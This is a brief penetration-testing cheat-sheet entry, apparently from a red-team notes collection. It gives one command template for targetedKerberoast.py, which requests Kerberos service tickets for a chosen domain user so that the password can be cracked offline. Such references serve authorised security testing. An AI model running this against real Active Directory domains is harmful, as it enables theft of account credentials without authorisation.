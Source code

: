 # targetedkerberoast
#plateform/linux #target/remote #cat/ATTACK

## Targeted kerberoast
```
targetedKerberoast.py -d <domain> -u <user> -p '<passwd>' --request-user <target_user>
```
